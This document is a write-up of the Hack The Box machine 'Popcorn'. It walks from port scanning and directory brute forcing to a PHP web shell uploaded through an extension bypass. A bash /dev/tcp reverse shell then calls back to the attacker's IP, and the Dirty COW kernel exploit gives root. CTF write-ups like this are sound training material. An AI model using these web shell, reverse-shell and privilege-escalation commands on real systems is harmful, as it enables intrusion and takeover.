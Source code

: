 ```yaml
---
name: Popcorn
difficulty: medium
os: linux
platform: htb
date: 2025/10/22
releasedDate: 2099-12-31
userFlag: false
rootFlag: false

img: image_url
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.6 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We will add `popcorn.htb` to our `/etc/hosts` file for easier access:

```bash
echo "10.10.10.6 popcorn.htb" | sudo tee -a /etc/hosts
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.10.6 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We see a web server running on port 80. Let's visit the website in our browser.
![](images/popcorn/2025-10-12-12-42-25.png)

We see a simple apache default page. Let's run a directory brute force using `ffuf` to find any hidden directories:

```bash
ffuf -u http://popcorn.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 
```
```
test                    [Status: 200, Size: 47400, Words: 2478, Lines: 655, Duration: 162ms]
                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 6858ms]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 7902ms]
torrent                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 57ms]
rename                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 114ms]
                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 89ms]
```

We find a interesting directory `/torrent`. Let's visit it in our browser.
![](images/popcorn/2025-10-12-13-43-16.png)

We register a new user and login. We can upload a torrent file to the server. We find out, that we can add some screenshots to the torrent file. Let's try to upload a PHP reverse shell as a screenshot.
![](images/popcorn/2025-10-12-13-49-15.png)

## User Exploitation

In Burp Suite, we change the file extension from `.jpg` to `.php` to bypass the upload restrictions. We also change the content by additng a simple PHP reverse shell code:
```
filename="small.php"

image content=
...
<?php system($_GET['cmd']); ?>
...
```

Then we upload the file.

We try to access the file using the following URL (the file name is generated by the server but can be found in the web page source code):
```bash
curl http://popcorn.htb/torrent/upload/dd8255ecdc7ca55fb0bbf81323d87062db1f6d1c.php?cmd=whoami
```
```
www-data
```

We have successfully executed a command on the server. Now we will set up a netcat listener on our machine and get a reverse shell.
```bash
nc -lvnp 4444
```
```bash
curl http://popcorn.htb/torrent/upload/dd8255ecdc7ca55fb0bbf81323d87062db1f6d1c.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261"
whoami
```
```
www-data
```

Now that we have a reverse shell, we will upgrade it to a fully interactive TTY shell using this script:
```bash
script /dev/null -c bash
stty raw -echo
fg
reset xterm
```

Now we try to get the user flag:
```bash
cat /home/george/user.txt
```
```
user flag value
```

## Root Exploitation

We find out `popcorn.htb` is running a old kernel version:
```bash
uname -a
```
```
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

We look up for any public exploits for this kernel version and find a local privilege escalation exploit called `Dirty COW` (CVE-2016-5195). We download the exploit code from [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839).

First we create a C file called `dirty.c` and copy the exploit code into it. Then we compile the code using `gcc`:
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then we run the exploit to get a root shell:
```bash
./dirty my-new-password
```

We can now switch to the new privileged user `firefart` using the password we provided:

```bash
su firefart
Password: my-new-password
whoami
```
```
firefart
```

Now we can read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
In this writeup, we have successfully exploited a vulnerable web application to gain a reverse shell and then escalated our privileges to root using a local privilege escalation exploit. Always ensure to keep your systems updated and patched to prevent such vulnerabilities.